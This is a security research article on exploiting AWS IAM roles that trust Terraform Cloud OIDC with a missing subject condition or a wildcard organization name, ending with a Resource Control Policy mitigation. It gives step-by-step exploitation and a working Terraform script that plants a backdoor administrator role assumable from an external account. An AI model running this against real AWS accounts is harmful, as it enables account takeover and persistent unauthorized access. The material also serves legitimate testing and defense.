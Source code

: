 ```yaml
---
author_name: Eduard Agavriloae
title: "Exploiting Misconfigured Terraform Cloud OIDC AWS IAM Roles"
description: Discover how to identify and exploit misconfigured AWS IAM roles using Terraform Cloud OIDC
---
```


<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess">Addressed AWS defaults risks: OIDC, Terraform and Anonymous to AdministratorAccess</a> by <a href="https://www.linkedin.com/in/eduard-k-agavriloae/">Eduard Agavriloae</a></p>
    <p><img src="/images/researchers/eduard_agavriloae.jpg" alt="Eduard Agavriloae" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

</div>

OIDC stands for OpenID Connect and is an identity layer built on top of the OAuth 2.0 protocol. In AWS, OIDC can be used to federate identities from external identity providers, such as Google, Facebook or Terraform, allowing users to access AWS resources using their existing third-party accounts.

OIDC is useful because instead of creating a set of AWS access keys for a user with administrator permissions and worry that they might get exposed, you can configure an IAM role with OIDC for Terraform Cloud to assume.

![Terraform OIDC Flow](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/0-flow-oidc-terraform.jpeg)

## IAM role misconfiguration using Terraform Cloud OIDC

### Part of the past as of 7th of February

When the issue was first documented, the presence of this misconfiguration was partially facilitated by AWS. If you were to create from the web portal a new IAM role for Terraform Cloud, by default the role's trust policy would look like this:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
       "Effect": "Allow",
       "Principal": {
         "Federated": "arn:aws:iam::<aws-account-id>:oidc-provider/app.terraform.io"
       },
       "Action": "sts:AssumeRoleWithWebIdentity",
       "Condition": {
         "StringEquals": {
            "app.terraform.io:aud": "aws.workload.identity"
         }
       }
    }
  ]
}
```

This trust role policy is missing the "app.terraform.io:sub" condition. Essentially, the present misconfiguration allows anyone to assume this role. As documented by [Terraform Cloud](https://developer.hashicorp.com/terraform/cloud-docs/workspaces/dynamic-provider-credentials/aws-configuration), you need to specify your organization through the subject condition like below to limit the access to this role:

```json
"Condition": {
    "StringEquals": {
      "app.terraform.io:aud": "aws.workload.identity"
    },
    "StringLike": {
      "app.terraform.io:sub": "organization:<your-terraform-organization>:project:<project>:workspace:<workspace>:run_phase:<run_phase>"
    }
}
```

Well, AWS made some changes and now they require from the start to specify the Organization, Project, Workspace, and Run Phase. Even more, now you can't create Terraform Cloud OIDC roles that don't have the subject condition.

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/1-engineer-configuration.png)

And for anyone who had a role for Terraform Cloud without the subject, on 8th of November 2024 AWS sent a notification that announced two things:

- Starting 7th of November 2024 you will not be able to create new Terraform Cloud roles without the subject condition
- Starting 7th of February 2025 the subject condition will be enforced for these roles (so most likely the misconfigured roles will not work anymore afterwards)   

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/3-notification-aws.jpeg)

So while you might still be able to find roles misconfigured like this (without the subject condition), just be aware that the attack against it most likely will not work starting from 7th of February 2025.

Can you still exploit misconfigured Terraform Cloud OIDC roles? Yes.

### The present misconfiguration

These roles can still be misconfigured. All it takes is an asterisks in the organization's name.

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/2-engineer-role.png)

So let's say we identified a role with the next trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::259230201556:oidc-provider/app.terraform.io"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "app.terraform.io:aud": "aws.workload.identity"
                },
                "StringLike": {
                    "app.terraform.io:sub": "organization:hackingthe*:project:blog:workspace:prod-front-end:run_phase:*"
                }
            }
        }
    ]
}
```

Notice the asterisk from the organization's name. Because the value is `hackingthe*`, we should be able to assume this role as described in the next section.

## Exploitation

Go to [Terraform Cloud](https://app.terraform.io/), create an account (it's free) and:

- Create an organization that follows the mentioned pattern: `hackingthe-*`
- Create a project named `blog`
- Create a workspace named `prod-front-end`

The `run_phase` is usually an asterisk as it's values refer to the stages that occur during a Terraform operation: plan, policy check and apply.

The next step involves configuring the next two variables in Terraform Cloud:

- TFC_AWS_PROVIDER_AUTH: true
    - This will tell Terraform Cloud to authenticate with AWS
- TFC_AWS_RUN_ROLE_ARN: arn:aws:iam::<aws-account-id>:role/<role-name>
    - This will tell Terraform Cloud what role to assume

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/4-attacker-config.png)


Prepare a Terraform script of your choice. Here is an example that wil create a backdoored role with administrator permissions. Please make sure you are authorized to perform this test.

```text
# here we need to set the the details of our organization
terraform {
  cloud {
    organization = "hackingthe-anything"
    workspaces {
      name = "prod-front-end"
    }
  }
}

# region can be anything if you create only IAM resources
provider "aws" {
  region = "eu-central-1"
}

# create role named "AWSServicesRoleForAutomation" that can be assumed from an external AWS account
resource "aws_iam_role" "create_role" {
  name               = "AWSServicesRoleForAutomation"
  assume_role_policy = jsonencode({
    "Version" : "2012-10-17",
    "Statement": [
      {
        "Effect": "Allow",
        "Principal": {
          "AWS": "arn:aws:iam::<external-aws-account>:root"
        },
        "Action": "sts:AssumeRole",
        "Condition": {}
      }
    ]
  })
}

# attach administrator level permissions to this role
resource "aws_iam_policy_attachment" "create_role_backdoor" {
  name       = "create_role_backdoor"
  roles      = [aws_iam_role.create_role.name]
  policy_arn = "arn:aws:iam::aws:policy/AdministratorAccess"
}
```

Save this to `main.tf`, login in terraform CLI and apply the changes.

```bash
terraform login
terraform init
terraform apply
```

Now the role should be created and you can try to assume it from the external AWS account.

## How to block this attack using RCPs
Recently, the Resource Control Policy (RCP) examples repository added [examples](https://github.com/aws-samples/resource-control-policy-examples/blob/main/Limit-access-to-trusted-OIDC-identity-providers/Limit-access-to-trusted-OIDC-identity-providers.md#specific-example-controls-for-tenancy-within-multi-tenant-oidc-providers-with-a-shared-issuer-url) on how to block this type of attack using RCPs. The example Resource Control Policy can block an external attacker from assuming your vulnerable role.
